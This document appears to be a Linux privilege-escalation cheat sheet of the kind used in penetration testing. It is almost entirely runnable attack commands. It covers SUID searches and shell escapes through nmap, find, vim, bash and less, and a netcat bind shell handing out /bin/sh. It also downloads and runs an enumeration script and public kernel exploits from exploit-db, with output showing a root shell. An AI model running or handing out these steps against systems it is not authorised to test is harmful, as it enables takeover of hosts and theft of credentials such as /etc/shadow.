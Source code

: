 # Linux Elevation

### SUID

```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

### nmap

Look for older versions that allow interactive use \(2.0.2 &gt; 5.21\)

```bash
nmap -v

nmap --interactive

nmap> !sh
sh-3.2# whoami
```

### find

```bash
touch pentestlab
find pentestlab -exec whoami \;

#bind shell - can change to reverse shell
find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
```

### vim

```bash
vim.tiny /etc/shadow

vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

### bash

```bash
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
```

### less or more

```bash
less /etc/passwd
!/bin/sh
```

### linux-local-enum script

```bash
wget https://highon.coffee/downloads/linux-local-enum.sh chmod +x ./linux-local-enum.sh ./linux-local-enum.sh
```

### CVE-2010-2959

CAN BCM' Privilege Escalation - Linux Kernel &lt; 2.6.36-rc1 \(Ubuntu 10.04 / 2.6.32\)

[https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)

```bash
 wget -O exp.c http://www.exploit-db.com/download/14814
 $ gcc exp.c -o exp
 $ ./exp
 [+] launching root shell!
 # id
 uid=0(root) gid=0(root)
```

### CVE-2010-3904

Linux RDS Exploit - Linux Kernel &lt;= 2.6.36-rc8 [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)

### CVE-2012-0056

Mempodipper - Linux Kernel 2.6.39 &lt; 3.2.2 \(Gentoo / Ubuntu x86/x64\) [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)

```bash
wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o mempodipper exploit.c  
./mempodipper
```

### CVE-2016-5195

Dirty Cow - Linux Privilege Escalation - Linux Kernel &lt;= 3.19.0-73.8 [https://dirtycow.ninja/](https://dirtycow.ninja/) First existed on 2.6.22 \(released in 2007\) and was fixed on Oct 18, 2016



